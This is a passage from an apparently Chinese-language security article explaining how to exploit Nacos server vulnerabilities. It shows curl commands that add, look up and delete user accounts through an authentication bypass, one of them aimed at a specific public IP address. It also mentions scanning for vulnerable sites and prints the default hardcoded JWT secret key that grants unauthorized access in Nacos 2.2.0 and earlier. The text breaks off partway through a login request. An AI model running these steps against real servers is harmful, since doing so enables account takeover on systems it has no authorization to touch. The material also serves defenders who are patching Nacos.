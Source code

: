 username=test&password=test123  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaKHIdibthRkQwHic6jbXLrxEPHGupewVYZyBk533sE9dU6qGwMbFdiamSw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
查看用户是否添加成功:  
  
/nacos/v1/auth/search?username=test  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia51fbdmibia0TfYiaVrdHafNm4EKroNib2DzoHJ78RIdicicf0MpPn3V1nFqg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
  
curl 'http://IP/v1/auth/search?username=test'  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMIHn9rCNdEqIiaibP1I6iarKR7mnkTT7eS0FPgs4NXaLPfZLpicAqho9JQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiapLXfA7XTfTUQE6UDDo7GbXDYJccE2bknnFNicJdXKib4oHrbvQOV8b2A/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
删除用户  
  
curl -X DELETE "http://47.83.174.204:8848/nacos/v1/auth/users?username=test"  
  
或者访问 /nacos/v1/auth/users?username=test，将请求方法修改为DELETE即可删除用户test  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia2j2hYLqGcd3rWVqRHpicQ5LNwKiaEPQ2xYBiaQTkWL0gvCiab8zPl0OwkQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
或者使用工具直接进行用户的添加  
  
先将有漏洞的站点扫描一遍选择ua权限绕过漏洞进行添加  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaxJAvibqW2vaABZhOXRB49mycibd0FWrfEc6bCic0bYcmibSFADLd4cgvkw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaPz96QcupPQT0gHL9AKLQiaepyoQmkagfib2yWTDpshgFja26oAURf4XA/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
### 5.默认jwt密钥-未授权访问  
  
开启了nacos.core.auth.enabled 的情况下，如果未修改默认nacos.core.auth.default.token.secret.key的值（在Nacos<=2.2.0版本中，该值为默认值），则可以通过accessToken值来绕过权限。  
  
nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789 # =后边的是默认的硬编码  
  
**影响版本**  
  
0.1.0<=nacos<=2.2.0  
#### 漏洞原理  
  
输入正确的账号密码，则后端会返回对应该用户的加密accessToken。  
  
请求包  
  
POST /nacos/v1/auth/users/login HTTP/1.1  
  
Host:  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0  
  
Accept: application/json, text/plain, */*  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  